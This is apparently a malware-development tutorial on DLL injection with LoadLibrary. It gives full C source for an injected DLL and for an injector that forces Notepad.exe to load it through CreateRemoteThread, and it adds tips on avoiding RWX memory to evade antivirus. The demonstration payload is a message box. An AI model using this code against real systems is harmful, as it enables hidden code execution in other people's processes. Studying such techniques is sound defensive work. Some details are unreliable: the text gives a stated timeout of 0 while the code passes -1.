


# DLL Injection (LoadLibrary Technique)

DLL injection is a technique used to inject a dynamic-link library (DLL) into the address space of a running process. This method allows the injected DLL to execute code within the context of the target process, granting it access to the process's memory, resources, and functionalities.

The module contains two main source files:
- `injectme.c`: This contains the source code for the malicious DLL
 
- `injector.c`: This contains the code for the program which injects our malicious DLL into the remote process.

## The DLL Source

First, we have our standard `DllMain` which contains the following code:

```c
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {
    switch ( fdwReason ) {
        case DLL_PROCESS_ATTACH:
            int result = injectme(); 
            break;
        default:
            break;
        }
    return TRUE;
}
```

The `DllMain` is simple: whenever the DLL is loaded into the process's memory (`DLL_PROCESS_ATTACH`) it calls the `injectme()` function which is responsible for running our Message Box payload. 

The `injectme()` function has the following code:
```c
extern __declspec(dllexport) int injectme(void) {
    void * pAddress;
    DWORD oldprotect = 0;
    pAddress = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pAddress, payload, payload_len);
    BOOL retval = VirtualProtect(pAddress, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) pAddress, 0, 0, 0);
    int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    return 0;
}
```
The `injectme()` function is where the magic happens. We use the `extern __declspec(dllexport)` declaration to indicate that the DLL exports this function. 

> Since the DLL will be loaded in the process's address space itself, we can use `VirtualAlloc()` and `CreateThread()` instead of `VirtualAllocEx()` and `CreateRemoteThread()`. 

We begin with allocating memory for our payload with `VirtualAlloc()`, like we did with `VirtualAllocEx()` during **Shellcode Injection**. However, one noticable difference is that: the permission of the memory region has been set to `PAGE_READWRITE` because we need to write our payload to it. 

> In case of Shellcode Injection, the call to `WriteProcessMemory()` makes the region temporarily writeable for us and when the write operation is done, it restores the memory protection to its original state, but in this case, we gotta do this on our own and make sure the memory region is writeable. [See: [this Microsoft DevBlog](https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415)]

Once the memory has been allocated, we use `RtlMoveMemory()` to copy the payload over to the allocated memory region, and then proceed to change the memory protection to `PAGE_EXECUTE_READ` using `VirtualProtect()`. 

> Note that we could have used `VirtualAlloc()` with `PAGE_EXECUTE_READWRITE` in the first place and skipped calling `VirtualProtect()` altogether. However, having `RWX` permission on a memory region sets off major red flags for AV engines.

Finally, we use `CreateThread()` and set the thread function to run our payload and wait till it finishes execution with `WaitForSingleObject()` just like in the **Shellcode Injection** example. Once the Thread finishes execution, we close the thread handle and return the back to the `DllMain` function. 

This concludes the DLL source.

## The Injector Source

Now comes the injector, which loads the malicious DLL into the target process's memory. The `main()` function looks familiar as such:

```c
int main() {
    DWORD pid = find_pid(TARGET);
    printf("[i] %s: %d\n", TARGET, pid);
    int result = inject_dll_ll(pid);
    printf("[i] Injection Complete!\n");
    return 0;
}
```

We find the Process ID for the target process using `find_pid()` and pass it to the `inject_dll_ll()` function where the injection takes place. The `inject_dll_dll()` function looks like this:

```c
int inject_dll_ll(DWORD pid) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    HANDLE hModule = GetModuleHandle("Kernel32.dll");
    PTHREAD_START_ROUTINE pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress(hModule, "LoadLibraryA");
    CloseHandle(hModule);
    PVOID pAddr = VirtualAllocEx(hProcess, NULL, sizeof(DLL_PATH), MEM_COMMIT, PAGE_READWRITE);
    BOOL result = WriteProcessMemory(hProcess, pAddr, (LPVOID)DLL_PATH, sizeof(DLL_PATH),  NULL);
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pLoadLibrary, pAddr, 0, NULL);
    int _result =  WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```
> Here, the `DLL_PATH` macro expands to the full path of the malicious DLL on the system

For injecting our DLL into the target process, we would use the `LoadLibraryA()` function from `kernel32.dll` to load our DLL into the target process's virtual memory. This method, however has certain drawbacks:
- It registers the DLL with the process so it might set off some flags to alert defenders
- If a DLL has already been loaded once with `LoadLibraryA()`, it would not trigger execution on subsequent attempts. 

With that in mind, lets walk through the code. First, we open a open a handle to the target process(`hProcess`). Then, we dynamically resolve the address of `LoadLibraryA` function from `kernel32.dll` as such:

- First, we use `GetModuleHandle()` to retrieve a module handle for the `kernel32.dll`, because thats where `LoadLibraryA()` function is defined.
- Then, we use this handle to the module(`hModule`) along with `GetProcAddress()` to fetch the address of the `LoadLibraryA()` function.
- Once we have the address to `LoadLibraryA()`, we can go ahead and free the module handle(`hModule`)

Next up, we need to allocate memory with `VirtualAllocEx()` in the remote process's virtual address space to store the full location of the DLL(`DLL_PATH`). This time around, we need to set the permission for the memory region as `PAGE_READWRITE` because we need to write our Dll's path (`DLL_PATH`) to it but there is no execution happening in the memory region.

Once the memory has been allocated, we use `WriteProcessMemory()` to copy the full DLL path into the process's memory. Finally, we call `CreateRemoteThread()`, but this time, we pass the previously acquired address of `LoadLibraryA()`(`pLoadLibrary`) as the thread function and pass the address of memory location in the remote process where the full path to the DLL is stored(`pAddr`) as the variable to the thread function, and start the remote thread. 

This essentially forces the remote process to execute the following instruction:

```c
LoadLibraryA("C:\\Path\\To\\injectme.dll")
```

As soon as the instruction is executed and the DLL is attached to the process, the payload is executed. We skip the wait stage for the thread by setting the timeout interval to `0` in `WaitForSingleObject()` and return as soon as exectuion finishes.

When compiled and run, we should have our `Hello World!` message box popup from the target process.



If we examine the target process(`Notepad.exe`) with a tool like `Process Hacker`, we should see our malicious DLL in the list of modules loaded by the process.



